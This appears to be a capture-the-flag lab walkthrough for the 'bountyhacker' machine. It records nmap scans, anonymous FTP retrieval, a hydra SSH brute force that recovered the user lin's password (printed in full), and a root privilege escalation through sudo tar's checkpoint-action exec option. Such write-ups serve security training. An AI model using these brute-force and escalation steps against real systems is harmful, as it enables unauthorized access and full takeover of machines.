 # Info
- IP = $IP

## Creds
 - lin:RedDr4gonSynd1cat3

# Ports

## PortScan
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

## 21

### `nmap`
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:$IP
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
```

### Anonymous Login
- "ls" command is not working... the terminal shows "Entering Extended Passive Mode"

### checking how to pentest ftp
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp
- `wget -m --no-passive ftp://anonymous:anonymous@<IP>`

### checking the files
1. locks.txt
    - wordlist
2. task.txt
    ```
    1.) Protect Vicious.
    2.) Plan for Red Eye pickup on the moon.

    -lin
    ```
    - maybe 

## 22

### `nmap`
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
```

### using username and wordlist found to try bruteforce using `hydra`
- `[22][ssh] host: $IP   login: lin   password: RedDr4gonSynd1cat3`

## 80

### `nmap` 
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### `gobuster`
#### `./gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt`
```
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://$IP/images/]                                                                         
/index.html           (Status: 200) [Size: 969]
/server-status        (Status: 403) [Size: 277]
```

# Actions

## Using creds found to login via ssh in lin's profile

### /home/lin/Desktop/user.txt
- `flag{XXXX}`

## PrivEsc

### `sudo -l`

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

### https://gtfobins.github.io/gtfobins/tar/#sudo

```
lin@bountyhacker:/tmp$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat roo
cat: roo: No such file or directory
# cat root.txt
flag{XXXX}
```


